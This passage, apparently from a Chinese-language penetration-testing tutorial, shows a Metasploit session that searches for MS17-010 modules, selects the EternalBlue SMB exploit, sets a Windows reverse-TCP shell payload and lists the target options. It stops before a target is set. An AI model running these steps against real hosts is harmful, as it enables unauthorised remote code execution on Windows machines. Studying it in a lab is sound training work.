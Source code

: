 ```
    msf6 > search ms17-010

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank     Check  Description
    -  ----                                      ---------------  ----     -----  -----------
    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


    Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
    msf6 > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    ```

+ 设置必要参数：

    + 可默认payloads,这里进行设置：

        ```
        msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
        payload => windows/x64/shell/reverse_tcp
        ```
    + 设置目标ip:

        ```
        msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

        Module options (exploit/windows/smb/ms17_010_eternalblue):

        Name           Current Setting  Required  Description
        ----           ---------------  --------  -----------
        RHOSTS                          yes       The target host(s), see http
                                                    s://docs.metasploit.com/docs
                                                    /using-metasploit/basics/usi
                                                    ng-metasploit.html
        RPORT          445              yes       The target port (TCP)
        SMBDomain                       no        (Optional) The Windows domai
                                                    n to use for authentication.
                                                    Only affects Windows Server
                                                    2008 R2, Windows 7, Windows
                                                    Embedded Standard 7 target
                                                    machines.
        SMBPass                         no        (Optional) The password for
                                                    the specified username
        SMBUser                         no        (Optional) The username to a
                                                    uthenticate as
        VERIFY_ARCH    true             yes       Check if remote architecture
                                                    matches exploit Target. Onl
                                                    y affects Windows Server 200
                                                    8 R2, Windows 7, Windows Emb
                                                    edded Standard 7 target mach
                                                    ines.
```